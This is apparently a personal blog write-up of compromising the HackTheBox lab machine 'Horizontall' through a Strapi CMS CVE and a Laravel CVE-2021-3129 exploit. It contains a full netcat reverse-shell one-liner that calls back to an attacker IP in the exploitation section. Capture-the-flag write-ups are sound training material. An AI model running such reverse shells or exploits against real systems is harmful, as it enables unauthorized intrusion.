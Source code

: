 ```yaml
---
title: Horizontall WriteUp @HackTheBox
author: MBZ0x7
date: 2022-02-06 15:10:00 +0800
categories: [Penetration Testing]
tags: [linux,web,pentest,hackthebox]
pin: false
---
```

Hello, here's my writeup for Horizontall linux machine from HackTheBox, which I pwned few days ago before it gots retired. 

![](../assets/posts/3/0.jpeg)
# <font color='red'>Information Gathering </font>
---
```
sudo nmap -sV 10.10.11.105
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Visiting 10.10.11.105 showed horizontall.htb, so I updated ```/etc/hosts```.

![](../assets/posts/3/1.png)

When diging into website source code, I haven't found anything useful. So, immediately I decided to bruteforce subdirectories, which also reveals nothing unfortunately.

Then, I decided to bruteforce subdomains. I used gobuster with one of seclists wordlists, which revealed 1 subdomain. So, as previously I updated my hosts file.
![](../assets/posts/3/2.png)

Here is how the subdomain looked up. Nothing of interest.
![](../assets/posts/3/3.png)
So, I bruteforced subdirectories which showed 2 (/admin and /reviews).
![](../assets/posts/3/4.png)
When visiting /admin subdir, I discovered that I'll be dealing with ```strapi CMS```.
![](../assets/posts/3/5.png)
/reviews is useless.
![](../assets/posts/3/6.png)
Trying default credentials wasn't successful, so I tried to find strapi version to look for CVEs which I found in one JS file. It was ```3.0.0-beta.17.4```.
![](../assets/posts/3/7.png)
Looking into exploit-db, I found 1st and 3rd ones potentially applicable. 
![](../assets/posts/3/8.png)

# <font color='red'>Exploitation</font>
---
I copied exploit-db 1st exploit into current directory using searchsploit command.
![](../assets/posts/3/9.png)
 Then, executed it and used ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.81 4444 >/tmp/f``` to get reverse shell to netcat.
![](../assets/posts/3/10.png)
Then, I found the user flag in developer account home directory.
![](../assets/posts/3/11.png)

# <font color='red'>Privilege Escalation</font>
---
For PrivEsc, I run linPEAS after transfering its shell script file to the compromised machine. 

From its output, ports 8000 and 3306 caught my attention.
![](../assets/posts/3/12.png)
I run ```curl http://127.0.0.1:8000``` and got a Laravel 8 website running locally.
![](../assets/posts/3/13.png)
Visiting exploit-db, I found an RCE exploit that looks promissing. 
![](../assets/posts/3/14.png)
For whatever reason it hasn't worked for me. So, I searched another one and found it 
[here](https://github.com/nth347/CVE-2021-3129_exploit). which got me arbitrary code execution on the root account ,and got the flag.
![](../assets/posts/3/15.png)
